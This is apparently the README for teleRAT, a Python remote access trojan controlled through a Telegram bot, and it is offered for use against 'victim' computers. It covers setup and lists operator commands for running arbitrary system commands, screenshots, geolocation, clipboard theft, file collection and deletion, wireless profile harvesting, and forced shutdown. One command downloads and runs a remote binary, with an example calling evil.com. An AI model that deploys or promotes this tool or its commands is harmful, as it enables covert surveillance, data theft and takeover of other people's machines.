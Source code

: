 # teleRAT

Python based RAT that uses Telegram for sending commands and receiving data to and from a victim computer.


# Setup.py

1. Insert your API key into the `api` variable inside the setup.py script & run it. This will setup your Telegram chat with your created bot with the necessary commands to avoid inserting each command along with the help message.
* Read [here](https://www.teleme.io/articles/create_your_own_telegram_bot?hl=en) to create your own bot and obtain your API token.

2. Install necessary requirements: `pip install -r requirements.txt`
3. Send a command to your Telegram bot
4. Run `python3 main.py`


## Available Commands

* **/whoami** - returns username. no additional arguments required.
* **/screenshot** - takes screenshots. requires the number of screenshots to take (EX: /screenshot 5 <- to take 5 screenshots)
* **/location** - returns location info (region, state, zip code, estimated coordinates, timezone, country, ip address)
* **/metadata** - returns metadata info about a specified file. requires filepath as an additional argument (EX: /metadata C:\Users\Username\Files\special.java <- will return metadata info about special.java)
* **/execute** - executes specified system command. requires 2 additional arguments: the system command and additional arguments to pass to that system command (EX: /execute cmd.exe {/c,ver} or /execute binary.exe none} in order to execute binary.exe with no arguments)
* **/power** - allows operator to shutoff, hibernate, or restart computer. requires 1 additional argument: hibernate, pd (to power down), or restart (EX: /power pd <- to power down the victim's computer)
* **/ls** - provides operator with directory listing. If no additional argument is provided, it provides directory listing for directory in which malware is. Additional argument of a directory is optional (EX: /ls %APPDATA% <- provides directory listing for APPDATA directory)
* **/delete** - deletes a user specified file. Additional argument of filepath is required (EX: /delete C:\Users\Username\Files\temp.txt <- deletes a file named temp.txt)
* **/wreport** - provides information regarding the wireless profiles the computer has connected to in the past, the drivers, and a list of wireless interfaces.
* **/remotebinary** - download and execute a remote binary. Requires 2 additional arguments: the URL where the binary is and any additional arguments to pass when executing the binary (EX: /remotebinary https://evil.com/file.exe noargs <- execute file.exe with no arguments or /remotebinary https://evil.com/file.exe {-c,-f} <- to execute file.exe with flags c & f)
* **/processes** - returns a list of running processes and services
* **/gather** - return a specified file. requires 1 additional argument: the filepath (EX: /gather C:\Users\username\important\file.xlsx <- grab and upload file.xlsx to Telegram chat)
* **/report** - provides a hardware report & Windows version to operator
* **/playnoise** - plays a user specified noise. available list of noises include: asterisk sound (asterisk), exclamation sound (exclamation), exit sound (exit), hand sound (hand), question sound (question), and beep (beep) (EX: /playnoise beep or /playnoise question)
* **/gatherclip** - returns data currently copied in the victim's clipboard. requires no additional arguments.
* **/messagebox** - will present the victim with a message box. 2 additional arguments are required: caption and title for the window (EX: /messagebox <text> <title>
